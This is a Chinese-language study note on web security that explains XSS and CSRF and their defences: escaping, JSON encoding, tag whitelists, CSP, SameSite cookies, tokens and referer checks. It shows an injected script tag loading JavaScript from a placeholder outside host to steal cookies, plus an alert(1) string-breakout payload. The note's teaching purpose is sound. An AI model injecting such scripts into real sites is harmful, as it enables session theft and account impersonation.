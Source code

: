 ## XSS 跨站脚本攻击

即注入脚本到页面，为所欲为。例如当后台的html模板为`<div>#{content}</div>`,而其中的content正好是我们前台传递过来的url的参数，
这时如果我们传入的url参数为一个脚本，例如`<script src='http://xxx.xxx.xx/index.js'></script>`这个时候我们就可以在这注入的脚本里面为所欲为，
如盗用cookies进而冒充登陆,盗取数据等等。

跨站攻击有几种分类:
- url参数直接注入 (反射型)
- 存储到数据库中后被读取时注入 (存储型)

注入点：
- html内容
- 属性
- javaScript代码
- 富文本

## XSS 的防御
可直接使用已有的轮子`XSS`。
### 转义
#### html内容
将`<`和`>`分别用`&lt;`和`&gt;`来替换

#### html属性
- <img class = "#{class}">, 当class当中含有引号的时候，会将属性提前关闭，对应的策略任然是转义,使用`&quto;`来替代双引号，使用`&#39`来代替单引号  

#### javaScript代码
当我们的代码当中含有后台传回来的数据的时候，也有可能由于引号问题而提前结束字符串， 如下
```
<script>
    var data = "#{data}" 
    // 当出现XSS攻击的时候上面的data可能成为这样: var data = "hello";alert(1);"";
</script>
```
- 解决办法之一是将data当中的双引号转义`"` => `\"`， 但是这种方式不能完全解决问题
- 正确的解决办法是在返回数据的时候使用JSON.stringfy将数据转换成JSON格式，它会对引号等进行转义，更加方便

#### 富文本

- 使用黑名单: 即过滤那些不允许的标签 // 不推荐
- 使用白名单: 遍历html，不在白名单当中的标签和属性应该删除，可使用`cheerio`这个库莱操作`dom`

### CSP 指定哪些内容可以执行
内容安全策略( CSP ) - HTTP | MDN
- 参看MDN


## CSRF 跨站请求伪造

通过发送请求来进行攻击，例如有一个网站a, 它有它的前端和后端，当用户登陆后，会在本地保存自己的cookies，
然后有一个攻击者b的网站，当用户无意间，点击进入了b的网站。
b网站的脚本会创建一个form表单，并设置相应的值，然后触发提交，利用form表单的无跨域限制，
冒充用户的身份使用post或者get去发送或者获取一些数据到a网站的后台，这样是特别危险的

## CSRF 防御
### 禁止第三方网站携带Cookies
设置Cookies的samesite选项，但是现在只有chrome支持它

### token 和 验证码

因为CSRF一般是不会经a网站的前端的，所以我们可以在a网站的前端添加一些信息，这样攻击者的b网站就拿不到我们的信息
- 验证码: 可以用轮子，如`ccap`, 前后端配合，后端生成验证码图片和数据，把图片返回给前端，数据可以用户id为键存储起来，下一次请求来的时候将验证码和之前存的进行比对
- token: 一个随机的字符串。

### 验证 referer

通过验证referer来禁止第三方网站的访问